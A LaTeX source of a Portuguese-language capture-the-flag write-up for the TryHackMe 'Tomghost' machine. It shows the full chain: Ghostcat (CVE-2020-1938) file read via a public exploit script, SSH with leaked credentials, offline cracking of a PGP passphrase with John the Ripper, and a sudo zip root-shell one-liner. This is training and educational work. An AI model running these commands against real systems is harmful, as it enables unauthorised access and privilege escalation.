\documentclass[12pt]{article}

% pacotes obrigatorios e formatacao
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}
\usepackage[margin=2cm]{geometry} % margem minima de 2cm exigida pela metodologia
\usepackage{times} % fonte times new roman
\usepackage{graphicx}
\usepackage{booktabs}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyhdr}
\usepackage{hyperref}
\usepackage{float}

\definecolor{citapurple}{HTML}{6A1B9A} % tom roxo escuro
% configuracao de links (hierarquia e cores)
\hypersetup{
    colorlinks=true,
    linkcolor=black,       % cor para sumario, figuras (\ref) e secoes
    urlcolor=blue,         % cor para links de internet (\url, \href)
    citecolor=citapurple,  % cor para citacoes bibliograficas (\cite) em roxo
    pdftitle={WriteUp - CTF - Tomghost},
}


% configuracao dos blocos de codigo (monoespacado com fundo destacado)
\definecolor{codebg}{gray}{0.95}
\lstset{
    backgroundcolor=\color{codebg},
    basicstyle=\ttfamily\small,
    breaklines=true,
    frame=single,
    frameround=tttt,
    framesep=5pt,
    rulecolor=\color{gray!30},
    showstringspaces=false,
    keywordstyle=\color{blue},
    captionpos=b,
    inputencoding=utf8,
    extendedchars=true
}

% configuracao de cabecalho e rodape
\setlength{\headheight}{14pt}
\pagestyle{fancy}
\fancyhf{}
\lhead{\small \textit{Tomghost - Try Hack Me}}
\rhead{\small \textit{Autor: Lurian Lima (luricl)}}
\rfoot{\thepage} % numeracao de paginas obrigatoria

\begin{document}

% 2.1. capa
\begin{titlepage}
    \centering
    \vspace*{2cm}

    {\Huge \textbf{Nome da Máquina: Tomghost}}\\[0.5cm]
    {\large \textbf{Plataforma:} Try Hack Me}\\[1.5cm]

    \vfill

    % espaco dedicado para logotipo (plataforma, unbreakable ou da máquina)
    \begin{figure}[h!]
        \centering
        
\includegraphics[width=0.32\textwidth]{unbreakableLogo_3.png}
    \end{figure}

    \vfill

    \begin{table}[h!]
        \centering
        \small
        \renewcommand{\arraystretch}{1.3}
        \begin{tabular}{ll}
            \textbf{Máquina / Desafio:} & Tomghost \\
            \textbf{Dificuldade:}       & Fácil \\
            \textbf{Autor:}             & Lurian Lima (luricl) \\
            \textbf{Matrícula:}         & 222005395 \\
        \end{tabular}
    \end{table}

    \vspace*{1.5cm}
    {\large \today}
\end{titlepage}

\newpage

% 2.2. sumario
% indice gerado automaticamente com numeracao de paginas
\tableofcontents
\newpage

% 2.3. visao geral
% paragrafo descrevendo o vetor principal de ataque sem spoiler detalhado.
% deve responder: o que e o desafio, qual a superficie explorada e o caminho geral ate o objetivo.
\section{Visão Geral}

A \textbf{Tomghost} é uma máquina Linux do TryHackMe classificada como fácil. A superfície externa expõe um servidor \textit{Apache Tomcat} acompanhado do conector \textit{AJP} (Apache JServ Protocol). O vetor de entrada explora a vulnerabilidade \textit{Ghostcat} (CVE-2020-1938), que permite a leitura de arquivos internos da aplicação via AJP; a leitura do \texttt{web.xml} revela credenciais que concedem acesso SSH inicial. A partir daí, a movimentação lateral passa pela quebra da \textit{passphrase} de uma chave privada PGP, usada para decifrar um arquivo com as credenciais de um segundo usuário. A escalada final abusa de uma permissão \texttt{sudo} sobre o utilitário \texttt{zip} para obter um shell como \texttt{root}.


% 2.4. reconhecimento
% resultados da enumeracao externa: portas abertas, servicos e versoes relevantes identificadas.
% incluir comandos executados em blocos de codigo e outputs truncados pertinentes.
% regra: nao incluir informacoes obtidas apos o foothold inicial.
\section{Reconhecimento}

Iniciou-se a varredura de serviços com o Nmap para mapear o alvo e identificar versões:

\begin{lstlisting}[caption={Varredura de serviços com Nmap}, label={lst:nmap}]
$ nmap -sV <TARGET_IP>
...
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
...
\end{lstlisting}

Destaca-se a presença do \textit{Apache Tomcat 9.0.30} na porta 8080 e do conector \textit{AJP13} na porta 8009. O AJP é um protocolo binário usado para encaminhar requisições de um servidor web para o Tomcat, e costuma ser exposto em conjunto com ele. É justamente esse serviço que abre o vetor de exploração inicial.

Como complemento, enumeramos diretórios e arquivos da aplicação web com o Gobuster:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth]{imgs/tomghost_gobuster.png}
    \caption{Enumeração de diretórios com Gobuster}
    \label{lst:gobuster}
\end{figure}

O console de administração \texttt{/manager} exige autenticação, para a qual ainda não temos credenciais. O caminho de entrada, portanto, não passa pela aplicação web em si, e sim pela falha no conector AJP.

% Para inserir um print da saída do Nmap, descomente e aponte para o arquivo:
% \begin{figure}[H]
%     \centering
%     \includegraphics[width=0.7\textwidth]{imgs/nmap.png}
%     \caption{Serviços identificados no alvo via Nmap.}
%     \label{fig:nmap}
% \end{figure}

% 2.5. exploracao
% descricao tecnica detalhada do vetor de entrada e raciocinio que levou a vulnerabilidade.
% incluir scripts, exploits ou payloads utilizados (comentados) e justificativa dos passos.
% prints obrigatorios evidenciando o acesso inicial obtido (com placeholder para dados sensiveis).
\section{Exploração}

O conector AJP exposto na porta 8009 é vulnerável ao \textit{Ghostcat} (CVE-2020-1938), uma falha de leitura/inclusão de arquivos que afeta o Apache Tomcat (incluindo a versão 9.0.30 identificada) e permite a um atacante ler o conteúdo de arquivos sob o diretório da aplicação web, onde frequentemente residem informações sensíveis.

Procuramos por um exploit público com o \texttt{searchsploit}, encontrando o script correspondente (Exploit-DB 48143):

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{imgs/searchsploit_ghostcat.png}
    \caption{Busca pelo exploit do Ghostcat com o searchsploit.}
    \label{fig:searchsploit}
\end{figure}

Copiamos o exploit para o diretório atual. Primeiro validamos a leitura solicitando o \texttt{index.jsp}, que retornou o código-fonte da página, confirmando a falha. Em seguida, apontamos para o \texttt{WEB-INF/web.xml}, onde ficam as credenciais da aplicação:

\begin{lstlisting}[caption={Execução do exploit Ghostcat para ler o web.xml}, label={lst:ghostcat}]
$ searchsploit -m 48143
$ python3 48143.py <TARGET_IP> -p 8009 -f index.jsp
$ python3 48143.py <TARGET_IP> -p 8009 -f WEB-INF/web.xml
\end{lstlisting}

A saída do exploit expõe, dentro do \texttt{web.xml}, um par de credenciais em texto claro referentes ao usuário \texttt{skyfuck}:

\begin{lstlisting}[caption={Credenciais vazadas no web.xml}, label={lst:creds}]
<description>Welcome to GhostCat</description>
<param-name>username</param-name>
<param-value>skyfuck</param-value>
<param-name>password</param-name>
<param-value><SENHA_SKYFUCK></param-value>
\end{lstlisting}

Com essas credenciais, obtemos o acesso inicial à máquina via SSH:

\begin{lstlisting}[caption={Acesso inicial via SSH}, label={lst:sshskyfuck}]
$ ssh skyfuck@<TARGET_IP>
skyfuck@tomghost:~$ id
uid=1001(skyfuck) gid=1001(skyfuck) groups=1001(skyfuck)
\end{lstlisting}

% 2.6. movimentacao lateral (se aplicavel)
% aplicavel quando ha multiplos usuarios no sistema ou necessidade de pivoting entre servicos.
% detalhar a escalada horizontal com comandos, raciocinio e evidencias necessarias.
\section{Movimentação Lateral}

No diretório \textit{home} de \texttt{skyfuck}, encontramos dois arquivos relacionados a criptografia PGP: uma chave privada em formato ASCII-armored e um arquivo cifrado:

\begin{lstlisting}[caption={Arquivos PGP no home de skyfuck}, label={lst:pgpfiles}]
skyfuck@tomghost:~$ ls -la
-rw-rw-r-- 1 skyfuck skyfuck  5.6K credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck  5.1K tryhackme.asc
\end{lstlisting}

O arquivo \texttt{credential.pgp} está cifrado e, presumivelmente, guarda credenciais de outro usuário; a chave \texttt{tryhackme.asc} é a chave privada necessária para decifrá-lo, mas está protegida por uma \textit{passphrase}. A estratégia é quebrar essa \textit{passphrase} \textit{offline}.

Copiamos a chave para nossa máquina de ataque e a convertemos para um formato que o \textit{John the Ripper} entenda, usando o \texttt{gpg2john}:

\begin{lstlisting}[caption={Extração do hash da passphrase com gpg2john}, label={lst:gpg2john}]
$ gpg2john tryhackme.asc > hash.txt
\end{lstlisting}

Em seguida, executamos o John com a wordlist \textit{rockyou} para recuperar a \textit{passphrase}:

\begin{lstlisting}[caption={Quebra da passphrase com John the Ripper}, label={lst:john}]
$ john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
<PASSPHRASE>      (tryhackme)
\end{lstlisting}

De posse da \textit{passphrase}, voltamos à máquina alvo, importamos a chave e deciframos o arquivo \texttt{credential.pgp}:

\begin{lstlisting}[caption={Importação da chave e decifragem do arquivo}, label={lst:decrypt}]
skyfuck@tomghost:~$ gpg --import tryhackme.asc
skyfuck@tomghost:~$ gpg --decrypt credential.pgp
# (informe a passphrase <PASSPHRASE> quando solicitado)
merlin:<SENHA_MERLIN>
\end{lstlisting}

O conteúdo decifrado revela as credenciais do usuário \texttt{merlin}. Trocamos de usuário e capturamos a primeira flag:

\begin{lstlisting}[caption={Acesso como merlin e captura da flag de usuário}, label={lst:sumerlin}]
skyfuck@tomghost:~$ su merlin
merlin@tomghost:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin)
merlin@tomghost:~$ cat user.txt
THM{<FLAG_DE_USUARIO>}
\end{lstlisting}

% 2.7. escalada de privilegios
% descrever o vetor de privesc vertical, o processo de enumeracao local que o revelou
% (ex: linpeas, sudo -l, capabilities, binarios suid) e a exploracao realizada.
% incluir o comando final e captura que comprove o acesso root/system e as flags com placeholder.
\section{Escalada de Privilégios}

Como \texttt{merlin}, verificamos quais comandos o usuário pode executar com \texttt{sudo}:

\begin{lstlisting}[caption={Privilégios sudo de merlin}, label={lst:sudol}]
merlin@tomghost:~$ sudo -l -l
User merlin may run the following commands on tomghost:
    (root : root) NOPASSWD: /usr/bin/zip
\end{lstlisting}

O usuário pode executar \texttt{/usr/bin/zip} como \texttt{root} sem senha. Consultando o \textit{GTFOBins}, vemos que o \texttt{zip} permite executar comandos arbitrários por meio da opção \texttt{-T} (test) combinada com \texttt{-TT} (unzip command), o que, rodando como \texttt{root}, resulta em um shell privilegiado:

\begin{lstlisting}[caption={Abuso do zip via sudo (GTFOBins)}, label={lst:zip}]
merlin@tomghost:~$ TF=$(mktemp -u)
merlin@tomghost:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
# um shell e aberto como root
\end{lstlisting}

Com o shell de \texttt{root}, confirmamos o acesso e capturamos a flag final:

\begin{lstlisting}[caption={Acesso final como root}, label={lst:root}]
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{<FLAG_DE_ROOT>}
\end{lstlisting}

% 2.8. conclusao
% resumo tecnico de 3 a 5 linhas sintetizando a cadeia de exploracao completa,
% do reconhecimento a captura final da flag.
\section{Conclusão}

A exploração da Tomghost encadeou falhas que ilustram o risco de serviços expostos e segredos mal protegidos. O reconhecimento revelou o conector AJP do Tomcat na porta 8009, vulnerável ao Ghostcat (CVE-2020-1938); a leitura do \texttt{web.xml} via AJP vazou as credenciais de \texttt{skyfuck}, concedendo o acesso inicial por SSH. A movimentação lateral explorou a fraqueza da \textit{passphrase} de uma chave PGP, quebrada \textit{offline} com o John the Ripper, permitindo decifrar as credenciais de \texttt{merlin}. Por fim, uma permissão \texttt{sudo} indevida sobre o binário \texttt{zip} foi abusada via GTFOBins para obter um shell como \texttt{root}, comprometendo totalmente a máquina.

\section{Referências}

% 2.9. referencias
% espaco destinado as fontes utilizadas para a exploracao:
% links dos repositorios de exploits publicos, documentacoes e cves correspondentes.
\begin{thebibliography}{9}
    \bibitem{ghostcat}
    \textbf{Ghostcat --- Apache Tomcat AJP File Read/Inclusion (CVE-2020-1938)}: descrição técnica da vulnerabilidade no conector AJP do Apache Tomcat. \\
    Disponível em: \url{https://www.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487}

    \bibitem{exploitdb}
    \textbf{Exploit-DB --- Apache Tomcat AJP 'Ghostcat' File Read/Inclusion (48143)}: script público utilizado para explorar a falha. \\
    Disponível em: \url{https://www.exploit-db.com/exploits/48143}

    \bibitem{gtfozip}
    \textbf{GTFOBins --- zip}: técnica de abuso do binário \texttt{zip} com \texttt{sudo} para execução de comandos como \texttt{root}. \\
    Disponível em: \url{https://gtfobins.github.io/gtfobins/zip/}

    \bibitem{thmroom}
    \textbf{TryHackMe --- tomghost}: sala de origem do desafio. \\
    Disponível em: \url{https://tryhackme.com/room/tomghost}

    \bibitem{walkthrough}
    \textbf{sckull --- tomghost (TryHackMe)}: referência utilizada como apoio para a cadeia de exploração. \\
    Disponível em: \url{https://sckull.github.io/posts/tomgost/}

\end{thebibliography}

\end{document}
